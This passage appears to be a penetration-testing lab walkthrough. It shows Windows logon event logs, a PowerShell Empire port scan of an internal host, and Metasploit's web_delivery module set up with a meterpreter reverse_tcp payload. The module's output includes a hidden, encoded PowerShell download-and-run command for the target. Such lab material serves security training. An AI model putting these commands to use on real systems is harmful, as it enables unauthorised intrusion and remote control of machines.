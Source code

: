 ```

LogonType             : 3
NewLogonAccountName   : Administrator
SourcePort            : -
SourceNetworkAddress  : -
Times                 : {1/12/2022 11:29:12 AM}
LogSource             : Security
SourceAccountName     : -
WorkstationName       : attackdefense
Count                 : 1
SourceDomainName      : -
NewLogonAccountDomain : ATTACKDEFENSE
LogType               : 4624

LogonType             : 10
NewLogonAccountName   : Administrator
SourcePort            : 0
SourceNetworkAddress  : 172.104.52.153
Times                 : {1/12/2022 11:29:13 AM}
LogSource             : Security
SourceAccountName     : ATTACKDEFENSE$
WorkstationName       : ATTACKDEFENSE
Count                 : 1
SourceDomainName      : WORKGROUP
NewLogonAccountDomain : ATTACKDEFENSE
LogType               : 4624


Event ID 4648 (Explicit Credential Logon):

Times             : {1/12/2022 11:29:13 AM}
TargetAccountName : Administrator
LogSource         : Security
SourceAccountName : ATTACKDEFENSE$
TargetServer      : localhost
Count             : 1
SourceDomainName  : WORKGROUP
TargetDomainName  : ATTACKDEFENSE
LogType           : 4648
```

`usemodule powershell/situational_awareness/network/portscan`, `set Hosts 10.2.21.72`, `execute`:
```
Hostname   OpenPorts          
--------   ---------          
10.2.21.72 80,3389,445,139,135 ←
```

**Step 6: Deploying Additional Payloads via Web Delivery**.

`sessions`, `sessions -k 1`.

`search web delivery`, `use exploit/multi/script/web_delivery`, `show targets`, `set TARGET PSH`, `show options`, `set SRVHOST 10.10.11.2`, `set LHOST 10.10.11.2`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `exploit`:
```
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.11.2:4444
[*] Using URL: http://10.10.11.2:8080/Klji3v5GH ←
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBl ...
```

